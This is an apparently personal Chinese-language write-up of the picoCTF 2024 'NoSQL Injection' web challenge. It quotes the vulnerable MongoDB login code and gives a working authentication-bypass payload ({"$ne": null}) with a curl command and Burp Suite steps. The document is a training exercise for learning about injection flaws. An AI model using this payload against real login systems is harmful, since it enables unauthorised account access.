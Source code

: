 
#wp #web

【[[WEB]]】提高题 - [[PICOCTF]]

创建时间：2025-07-19 15:03
题目链接：[picoCTF - picoGym Challenges](https://play.picoctf.org/practice/challenge/443?category=1)
### 解题过程
### **picoCTF 2024: [[NoSQL]] Injection - Writeup**

hints：
![](https://cdn.jsdelivr.net/gh/wydyxhxs/images/pic/20250719150503420.png)

![](https://cdn.jsdelivr.net/gh/wydyxhxs/images/pic/20250719150603159.png)

---

### **漏洞分析**

这道题涉及 **NoSQL 注入**，这种漏洞发生在非关系型数据库（例如 MongoDB）中，攻击者可以通过特殊的查询条件影响数据库的行为。

我们从题目附件中（server.js）获得的信息是：后端使用 MongoDB 作为数据库，并且登录功能存在漏洞。代码如下所示：

```js
const user = await User.findOne({
  email: email.startsWith("{") && email.endsWith("}") ? JSON.parse(email) : email,
  password: password.startsWith("{") && password.endsWith("}") ? JSON.parse(password) : password,
});
```

这段代码的功能是检查 `email` 和 `password` 是否被包裹在 `{}` 中。如果是，它们将被当作 JSON 字符串进行解析，然后应用于 MongoDB 的查询。

例如，如果输入的 `email` 字段是 `{"$ne": null}`，MongoDB 会执行一个查询，表示 `email` 不等于 `null`，并且根据这一条件查找用户。

**关键漏洞：**

- 该系统使用了 `JSON.parse()` 来解析用户输入。如果攻击者构造了一个特殊的 JSON 字符串，它将被当做查询条件传递给 MongoDB。
    
- MongoDB 查询语言允许使用特殊操作符，如 `"$ne": null`，这使得任何值都能通过验证。攻击者可以利用这一点绕过身份验证。
    

---

### **漏洞利用**

#### **构造恶意请求**

我们可以通过注入 MongoDB 查询条件来绕过认证。有效的注入内容通常是通过将 `email` 和 `password` 字段设置为以下形式：

```js
{
  "email": "{\"$ne\": null}",
  "password": "{\"$ne\": null}"
}
```

这里：

- `{"$ne": null}` 是 MongoDB 查询的语法，表示 `email` 或 `password` 不等于 `null`。这将匹配所有非 `null` 的值，绕过了对 `email` 和 `password` 字段的实际验证。
    
- 由于 MongoDB 查询语言的灵活性，任何不为 `null` 的值都会通过验证。
    

#### **通过 curl 发送请求**

我们可以使用 `curl` 发送 POST 请求来测试这个注入。以下是发送请求的命令：

```json
curl -X POST http://atlas.picoctf.net:54037/ \
  -H "Content-Type: application/json" \
  -d '{"email": "{\"$ne\": null}", "password": "{\"$ne\": null}"}'
```

这条命令向服务器发送了带有恶意查询条件的 `email` 和 `password` 字段，目的是绕过身份验证。

#### **使用 Burp Suite 测试注入**

通过 Burp Suite 也可以进行同样的操作：

1. 启动 Burp Suite 并将浏览器代理设置为 Burp 代理。

2. 访问登录页面并捕获 POST 请求。

3. 将请求发送到 Repeater，并在 `email` 和 `password` 字段中注入 `{"$ne": null}`。

4. 发送修改后的请求，查看响应结果。
![](https://cdn.jsdelivr.net/gh/wydyxhxs/images/pic/20250719150954323.png)

---

### **获取 Flag**

登录后，服务器会返回一个包含 `token` 字段的 JSON 响应。这个 `token` 字段通常是 Base64 编码的，包含了题目的 Flag。
![](https://cdn.jsdelivr.net/gh/wydyxhxs/images/pic/20250719151050596.png)